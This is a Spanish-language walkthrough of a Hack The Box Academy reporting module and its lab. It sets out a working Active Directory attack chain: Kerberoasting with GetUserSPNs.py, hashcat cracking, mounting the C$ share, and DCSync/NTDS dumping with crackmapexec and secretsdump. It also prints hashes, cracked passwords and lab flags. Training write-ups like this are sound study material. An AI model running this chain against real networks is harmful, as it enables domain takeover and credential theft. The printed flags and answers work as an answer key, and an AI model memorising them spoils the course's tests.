









# Documentation & Reporting

## Preparation

### Notetaking & Organization

1. **What tool mentioned in this section can make logging a session easier?**

Es una herramienta que te permite **dividir tu pantalla** en muchas partes para trabajar en varias cosas a la vez.

answer: **Tmux**

2. **Steve is learning about the tool that can make logging a session easier. He messages you for help mentioning that he would like to try to split the panes vertically. What do you tell him? (Answer format: [key] + [key] + [key], i.e., fill in the values for "key" and leave the brackets and + signs.)**

answer: **[Ctrl] + [B] + [Shift] + [%]**

## Types of Reports

1. **Inlanefreight has contracted Elizabeth's firm to complete a type of assessment that is mostly automated where no exploitation is attempted. What kind of assessment is she going to be contracted for?**

> Las evaluaciones de vulnerabilidades (**Vulnerability Assessment**) implican ejecutar un escaneo automatizado de un entorno para enumerar vulnerabilidades. Estas pueden ser autenticadas o no autenticadas. No se intenta ninguna explotación, pero a menudo buscaremos validar los resultados del escáner para que nuestro informe pueda mostrar a un cliente qué resultados del escáner son problemas reales y cuáles son falsos positivos. La validación puede consistir en realizar una verificación adicional para confirmar que una versión vulnerable está en uso o que una configuración/mala configuración está presente, pero el objetivo no es obtener un punto de apoyo (foothold) y moverse lateralmente/verticalmente. Algunos clientes incluso pedirán resultados de escaneo sin validación.

answer: **Vulnerability Assessment**

2. **Nicolas is performing an external & internal penetration test for Inlanefreight. The client has only provided the company's name and a network connection onsite at their office and no additional detail. From what perspective is he performing the penetration test?**

answer: **black box**

### Componets of a Report

1. **What component of a report should be written in a simple to understand and non-technical manner?**

answer: **Executive summary**

2. **It is a good practice to name and recommend specific vendors in the component of the report mentioned in the last question. True or False?**

answer: **false**

## Reporting

### How to Write Up a Finding

1. **"An attacker can own your whole entire network cause your DC is way out of date. You should really fix that!". Is this a Good or Bad remediation recommendation? (Answer Format: Good or Bad)**

answer: **bad**

## Next Steps

### Documentation & Reporting Practice Lab

1. **Connect to the testing VM using Xfreerdp and practice testing, documentation, and reporting against the target lab. Once the target spawns, browse to the WriteHat instance on port 443 and authenticate with the provided admin credentials. Play around with the tool and practice adding findings to the database to get a feel for the reporting tools available to us. Remember that all data will be lost once the target resets, so save any practice findings locally! Next, complete the in-progress penetration test. Once you achieve Domain Admin level access, submit the contents of the flag.txt file on the Administrator Desktop on the DC01 host.**

RDP to 10.129.105.250 (ACADEMY-DOCRPT-PAR01), with user "<font color="#9bbb59">htb-student</font>" and password "<font color="#c00000">HTB_@cademy_stdnt!</font>"

```
xfreerdp /u:htb-student /p:HTB_@cademy_stdnt! /v:10.129.106.31 /size:95% /dynamic-resolution +clipboard
```

Luego, abrimos la terminal y escribimos los siguientes comandos:

```
route -n
```

Se utiliza para **mostrar la tabla de enrutamiento IP** de tu sistema operativo

<p align="center"> 

</p>

Al aplicar la máscara **/23** a la dirección IP **172.16.5.1**, descubrimos que esa IP pertenece a la red **172.16.4.0/23**

```
fping -asgq 172.16.4.0/23 > hosts.txt
```

El comando sirve para que verifiques que tu sistema operativo ha entendido correctamente los límites de tu red de 512 direcciones y sepa a dónde enviar los datos sin perderse.

<p align="center"> 

</p>

```
sudo nmap -A -iL hosts.txt
```

El servidor dns de la red es **172.16.5.5**

```bash
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-07-17 13:52:57Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: INLANEFREIGHT.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2026-07-17T13:54:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=DC01.INLANEFREIGHT.LOCAL
| Not valid before: 2026-07-16T13:19:08
|_Not valid after:  2027-01-15T13:19:08
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: INLANEFREIGHT.LOCAL
|   DNS_Computer_Name: DC01.INLANEFREIGHT.LOCAL
|   Product_Version: 10.0.17763
|_  System_Time: 2026-07-17T13:53:19+00:00
```

Ahora ejecutamos **nslookup** en **DC01**, usando el servidor DNS que acabamos de descubrir:

```
nslookup DC01.INLANEFREIGHT.LOCAL 172.16.5.5
```

Este comando sirve para **hacerle una pregunta directa a un servidor DNS específico** para averiguar qué dirección IP le corresponde a un nombre de equipo en una red.

<p align="center"> 

</p>

El dns del servidor es **DC01**

El siguiente es revisar los apuntes que tenemos en obsidian, y los apartados mas destacados son lo que se encuentra dentro de la carpeta **Findings** llamados **H1** y **H8**

Contenido h1:

<p align="center"> 

</p>

Contenido h8:

<p align="center"> 

</p>

Por tanto, tenemos dos usuarios descubierto **asmith** y **solarwindsmonitor** pero solo tiene credenciales el usuario **asmith** --> **Welcome1**

Usaremos la herramienta **GetUserSPNs.py** para consultar el ticket TGS del usuario **solarwindsmonitor**

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/asmith -request-user solarwindsmonitor
```

- **`GetUserSPNs.py`**: Es un script que forma parte de la suite de herramientas **Impacket**. Su función es buscar cuentas de usuario que tengan configurado un SPN (_Service Principal Name_), lo que significa que actúan como cuentas de servicio (servidores web, bases de datos, herramientas de monitoreo, etc.).

- **`-dc-ip 172.16.5.5`**: Especifica la dirección IP del **Controlador de Dominio** (DC) al que le vas a hacer la petición.

- **`INLANEFREIGHT.LOCAL/asmith`**: Son las credenciales que estás utilizando para entrar a la red. Le estás diciendo: _"Soy el usuario `asmith` dentro del dominio `INLANEFREIGHT.LOCAL`"_. El comando te pedirá la contraseña de `asmith` justo después de pulsar Enter.

- **`-request-user solarwindsmonitor`**: Le dice al script: _"Quiero que solicites específicamente el ticket TGS para el usuario `solarwindsmonitor`"_.

<p align="center"> 

</p>

```
$krb5tgs$23$*solarwindsmonitor$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/solarwindsmonitor*$b647983928d2d6f016fc17605fc1ae43$43a40811d1455d535fe4d5b9b39de4bb4511b7300420ea0cb5214ecea441cc7f464169f033ac5a71d481c62cc78a68035e39ad54cadce2fba4d5b0718b8bac317528832e4cbf7e0f7a96abb3d2c890d5a6e1acac6e9e4639ae7fa142344ae67c1cb0140282676a7a21e0b1adf815a4f0a01b5270b8137c8b59b64ec59e0a0134d1b869ec356a9aa8e9496459cb3d3260cb9e9962c219a1472fbdd0db3eeae8e5512b4e65329239a9abe021a4305f782e1af7c8428b7ac1c5bc647c3799925dd63908edde64d7281746daadfdfeded55fdbf1eae2abb08666dc7af46bb9d8fe19e9ee98c7886f1feb58c434189deb219b20fafa0c146937156d647c42bfdb41ed7870a8d3f76c59ca0c57d5685093866777501a607180df338c9b02c0c5756838c81a2ca6844a3486596d6251c82f21b27dcfa23f860261188b1ebd3158011da529ca1aeae97b3aef2e0765cead29b108bdf15930538699d3344c84ef46aa9314c63660ea77a1552130d1e5a5c0f86df362ff0a01049223d305b5e6050ecdd1b7f51479e2fae1cf440452f872e7c2cf15925a3d40553551ea1cb790f0e59555cfe9f00525f49717ec427ed58bcfe3d789f080ccd54f908a463c87ec60acbaedddec1936f6cd4bf8dcd8e648b4cac128f65e3eea549ff7f7acc5b9703357c69f241608bb24c2234b21192fcbbc21da65ef58ac628e59741949f0e3e02b1f6697001ecb6aff234163932729f7990b27f6facbef4b8e3c266f28f7a241762a02ce5caeb1ef07f1974389d3655dd18957c03f0bdba0df0f19d2271dc1d6a76ab829db12eee5a19c4b5d555d618975429ca8b7faf9ad60bdaa13b96474faea1638e3dfb97341330fb6123c1225157b6ce3e7f3ef350661169b1695d6231b27f5fb52d097929432856b7d75e546683624357d9f7438c3fc36d691aa24c7461454b452e0ad23586c9db536fde12301ea9355da3c4573840bf203ab3626ac9c6080f76e1a930c00442f63eef513ebcdf204080b7184b4d0c16bd86017e6fa482a93eac21006997fdf342d3a4c41fbb4a0bd94b0b727e7d91a93dcaafea5b09fcd7b8208cd967751dc1f1effd328259b238274b6c032355959d8cd8b1e15b4c7e8c77790f2a4340dd1f5ed0d7b0b6e27af3557a7eca172c0ed23166c997feab88a5f2f834844fdaaa3711e0a111e33dc2a08a2b5fa0a3e7b5bb0b4529dcb4ba30558ada42dded7a08f6374227467b46dd070a0a75645c1cd3519faa257c7ee391118484cd6f8c49b86299eeab3ffc2058aac06c8ae33b20a564a3b11a9011ec7fec4228b4e51afc5d8c42ec1f2cbef2aa6d0be30353d4b
```

Lo guardaremos en archivo llamado **hash.txt** y luego usaremos la herramienta **hashcat** para encontrar la password

```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Pass: **Solar1010**

```
sudo crackmapexec smb 172.16.5.5 -u solarwindsmonitor -p Solar1010 --shares
```

<p align="center"> 

</p>

Crearemos una carpeta llamada **output** y dentro realizamos el siguiente comando:

```
sudo mount -t cifs //172.16.5.5/"C$" output -o username=solarwindsmonitor,password=Solar1010
```

Este comando sirve para **conectar (montar) el disco principal `C$` de un servidor Windows remoto dentro de una carpeta de tu sistema Linux**.

Una vez contruida, realizamos el siguiente comando para encontrar la flag.txt

```
find /output -name "flag.txt" 2>/dev/null
```

<p align="center"> 

</p>

```
cat /home/htb-student/output/Users/Administrator/Desktop/flag.txt
```

answer: **d0c_pwN_r3p0rt_reP3at!**

2. **After achieving Domain Admin, submit the NTLM hash of the KRBTGT account.**

```
sudo crackmapexec smb 172.16.5.5 -u solarwindsmonitor -p Solar1010 --ntds | grep krbtgt
```

- **`sudo crackmapexec smb`**: Ejecuta con privilegios de administrador local la herramienta **CrackMapExec** (un "suizo" para la automatización de evaluaciones de seguridad en redes) enfocándola en el protocolo **SMB** (puerto 445), que es el sistema de compartición de archivos y gestión de Windows.
    
- **`172.16.5.5`**: Es la dirección IP del objetivo (el Controlador de Dominio).
    
- **`-u solarwindsmonitor -p Solar1010`**: Especifica las credenciales de acceso que se van a utilizar. Para que el siguiente paso funcione, esta cuenta debe tener privilegios muy altos en el dominio (como Administrador del Dominio o permisos de replicación).
    
- **`--ntds`**: Esta es la acción clave. Le ordena a la herramienta intentar un ataque de **DCSync** o volcado del archivo `ntds.dit`. El archivo `ntds.dit` es la base de datos principal de Active Directory donde Windows almacena todos los datos del dominio, incluyendo los nombres de usuario y los hashes de sus contraseñas.
    
- **`| grep krbtgt`**: Utiliza una tubería (`|`) para filtrar la enorme lista de usuarios que devolvería el comando original, mostrando en pantalla **únicamente la línea que contenga la palabra `krbtgt`**.

> SMB         172.16.5.5      445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::

answer: **16e26ba33e455a8c338142af8d89ffbc**

3. **Dump the NTDS file and perform offline password cracking. Submit the password of the svc_reporting user as your answer.**

```
secretsdump.py INLANEFREIGHT.LOCAL/solarwindsmonitor:Solar1010@172.16.5.5 -just-dc-user svc_reporting
```

<p align="center"> 

</p>

Guardaremos este hash **a6d3701ae426329951cf5214b7531140** en archivo llamado **hash1.txt**

```
hashcat -m 1000 hash.1txt /usr/share/wordlists/rockyou.txt
```

answer: **Reporter1!**

4. **What powerful local group does this user belong to?**

```
ldapsearch -x -H ldap://172.16.5.5 -D "solarwindsmonitor@INLANEFREIGHT.LOCAL" -w "Solar1010" -b "DC=INLANEFREIGHT,DC=LOCAL" "sAMAccountName=svc_reporting" memberOf
```

- **`ldapsearch`**: Es la herramienta de Linux que se utiliza para conectarse y hacer búsquedas en un servicio de directorio estructurado (como el Active Directory de Windows).

- **`-x`**: Activa la **autenticación simple**. Le dice al comando que envíe el usuario y la contraseña en texto claro estructurado a través de la red, en lugar de intentar negociar mecanismos complejos de cifrado (como Kerberos).

- **`-H ldap://172.16.5.5`**: Especifica el **Host (servidor)** al que te vas a conectar. En este caso, el servidor LDAP que corre en el Controlador de Dominio (`172.16.5.5`).

- **`-D "solarwindsmonitor@INLANEFREIGHT.LOCAL"`**: Es el _Bind DN_ (el usuario con el que te vas a identificar). En LDAP necesitas una cuenta válida para poder mirar los datos; aquí estás usando la cuenta de `solarwindsmonitor`.

- **`-w "Solar1010"`**: Es la contraseña del usuario que pones en el parámetro anterior. _(La `-w` minúscula permite poner la contraseña directamente en el comando. Si fuera `-W` mayúscula, el comando se detendría para pedírtela de forma oculta)._

- **`-b "DC=INLANEFREIGHT,DC=LOCAL"`**: Es la **Base de búsqueda** (_Search Base_). Le indica a LDAP en qué parte del árbol del directorio debe empezar a buscar. Al poner el dominio raíz, le estás diciendo: _"busca en todo el dominio completo"_.

- **`"sAMAccountName=svc_reporting"`**: Este es el **filtro de búsqueda**. Le estás diciendo al servidor: _"De todos los miles de objetos que tienes guardados, búscame únicamente el objeto cuyo nombre de usuario sea exactamente `svc_reporting`"_.

- **`memberOf`**: Es el **atributo específico** que quieres que te muestre. Si no pusieras esto al final, el comando te traería _toda_ la información del usuario (su teléfono, cuándo cambió la contraseña, su correo, etc.). Al poner `memberOf`, le dices: _"Solo me interesa ver la lista de grupos a los que pertenece"_.

<p align="center"> 

</p>

answer: **Backup Operators**